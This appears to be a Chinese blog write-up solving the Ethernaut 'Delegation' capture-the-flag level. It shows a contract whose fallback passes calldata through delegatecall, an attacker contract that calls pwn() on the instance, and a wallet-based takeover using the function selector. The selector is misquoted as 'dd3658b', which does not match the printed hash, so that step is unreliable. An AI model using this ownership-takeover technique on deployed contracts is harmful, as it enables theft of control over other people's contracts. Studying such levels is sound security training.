




# Delegation

## 题目

目标：修改owner

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## 分析

这是常见的delegatecall漏洞，遇到了好几次了，解题思路比较常规。下面介绍两种修改owner的方法：

### 合约修改

具体原理参考：本博客文章[security-15]，一模一样。下面就贴出解题代码。

```solidity
contract Hack{
    function attack() public{
    	//题目实例地址
        address(0x73984D4E3b589f9d64D71e7D1bAe2029715C9316).call(abi.encodeWithSignature("pwn()"));
    }
}
```

我们调用attack方法，执行成功，但是owner却没修改，为什么呢？我想了很久，是张学长告诉了我：去区块链浏览器看看执行成功没，然后我一看，果然出问题了：gas不足，失败了。但是为什么remix却显示成功调用了呢？答案：因为是call调用，就算执行失败也不会告诉你



所以我们将gas提高了10倍，去区块链浏览器看，这回是真的执行成功了，owner也是真的修改成合约地址了。

然后我去提交答案，检查结果。然而显示我没有通过检验。又是张学长，他告诉我：这个靶场题目检验的是我钱包地址成为owner，而不是一个合约。（太感谢他了）

要钱包地址成为owner，那么就不可以用合约进行攻击，要直接用钱包用户直接调用了

### 做题：钱包用户修改

因为要触发delegation的fallback函数，里面代码`(bool result,) = address(delegate).delegatecall(msg.data)`，那么我们Low level interactions的时候，传入的calldata具有讲究：**传入的是Keccak256之后值的前8位，也就是函数选择器**。

先计算pwn()的Keccak256值：`0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab`



然后取前8位：dd3658b（注意：去掉0x）。同理，需要将gas提高，我提高了10倍，这样执行才能成功。如图，owner也被修改为我的钱包地址



然后检验答案，成功




